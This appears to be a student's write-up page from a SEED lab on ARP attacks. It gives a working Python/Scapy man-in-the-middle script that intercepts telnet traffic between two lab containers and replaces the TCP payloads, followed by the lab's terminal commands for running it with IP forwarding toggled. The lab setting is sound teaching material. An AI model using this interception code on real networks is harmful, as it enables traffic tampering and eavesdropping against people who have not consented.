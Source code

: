 #### Python ARP-MITM-Attack.py [ARP-MITM-Attack.py](https://github.com/tyletran08/seed-lab-arp-attack/blob/main/python/ARP-MITM-Attack.py)
```python
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1)    We need to delete the checksum in the IP & TCP headers,
        #       because our modification will make them invalid.
        #       Scapy will recalculate them if these fields are missing.
        # 2)    We also delete the original TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        del newpkt[TCP].payload
        
        #################################################################
        # Construct the new payload based on the old payload.

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load    # The original payload data
            newdata = b'Z' * len(data)      # Create a new payload with the same length

            send(newpkt/newdata)
            
        else:
            send(newpkt)
        #################################################################

    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # Create new packet based on the captured one
        # Do not make any change

        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        send(newpkt)

f = 'tcp and not src host 10.9.0.105'
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

#### Output
```
// Attacker M Container (Window 1)

seed@VM> docker cp ARP-MITM-Attack.py M-10.9.0.105:/tmp/
seed@VM> docksh M-10.9.0.105
root@M-10.9.0.105:/# sysctl net.ipv4.ip_forward=1
	net.ipv4.ip_forward = 1
root@M-10.9.0.105:/# python3 /tmp/ARP-Poisoning.py

// Attack M Container (Window 2)
seed@VM> docksh M-10.9.0.105
// After Victim A telnets to Victim B
root@M-10.9.0.105:/# sysctl net.ipv4.ip_forward=0
```